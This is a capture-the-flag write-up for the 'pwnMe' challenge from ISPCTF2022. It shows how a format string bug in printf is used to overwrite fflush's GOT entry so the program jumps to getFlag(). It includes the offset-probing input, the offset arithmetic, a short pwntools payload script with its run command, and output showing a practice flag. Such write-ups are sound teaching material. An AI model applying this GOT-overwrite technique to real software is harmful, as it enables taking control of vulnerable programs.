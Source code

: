 # pwnMe

- This challenges is not available now, so, I create a fake flag for practice purpose.

## OVERVIEW & Idea

- Challenges has only one binary file, so, I do some checksec, decompilation of this file to get more informations.

- This file is 64-bit and all proctecting functions are off.

![img](/ISPCTF2022/pwnMe/assets/checksec.png)

- Its decompilation of main function, as you can see, this program has format string vulnerability `printf(format)`.

![img](/ISPCTF2022/pwnMe/assets/main_func.png)

- Other functions are normal, except this functions, I think that the target of this challenge is jump to this function `getFlag()`.

![img](/ISPCTF2022/pwnMe/assets/getFlag.png)

- Run the program:
```
λ ~/pwn_me/ ./pwnMe
Tell me your name:
AAAA
I don't have any present for you, AAAA
```

- Above are all necessary informations of this binary file for our exploitation. In this challenge, I will take advantage of format string vuln `printf(format)` to overwrite the `fflush@GOT.plt` with address of `getFlag()`, so when the program run the `fflush(0LL)`, it redirects to `getFlag()` and print the flag, it's possible because of all proctecting functions are off.

## DETAILS

- First, I find the address of `getFlag()` and `fflush@GOT.plt`

![img](/ISPCTF2022/pwnMe/assets/getFlag_address.png)

![img](/ISPCTF2022/pwnMe/assets/fflush_got.png)

- The address of 2 functions is different at last 2 bytes, so, I will use `%hn` specifiers to modifide it.

- Then I run some test for this program:

```
λ ~/pwn_me/ ./pwnMe
Tell me your name:
AAAAAAAA.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx
I don't have any present for you, AAAAAAAA.4008a4.0.1.0.7f548dcfc4e0.2074276e6f642049.796e612065766168.746e657365727020.756f7920726f6620.414141414141202c.2e786c6c252e4141.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.a
```

- You can see that, the start of input is not align. So I must put the start of address in index `multiple of 8 + 6 - 1`.

- And I found it's perfect with `45` (46 is size).

![img](/ISPCTF2022/pwnMe/assets/stack.png)

- The index of argument is `16`, I found it by some debug with `%x`. So, `%16$hn` is the specifiers for `%hn` position.
- Last 2 bytes will be modifided by the number of character that printf printed to output. It will take 6 character, so, the padding will be `46 (total) - 6 (%16$hn) - 6 (%xxxxc) = 34 (padding)` character.

- We now have all the things to exploit, let's do it.

## EXPLOIT

- Exploit file
```python
# filename: exp.py
from pwn import *

address_getf = 0x7cc - 34 - 34  # 1928

fflush_got_plt = 0x600c48

payload = '%1928c'+'a'*34 +'%16$hn' + p64(fflush_got_plt)

print(payload)
```

- Command
```
python2 exp.py | ./pwnMe
```

## RESULT

```
λ ~/pwn_me/ python2 exp.py | ./pwnMe
Tell me your name:
I don't have any present for you,










                                                                                           �aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaH
                                                                                                                               `FLAG{28ca988f98e9ca9d7a7c7e77g788a}
```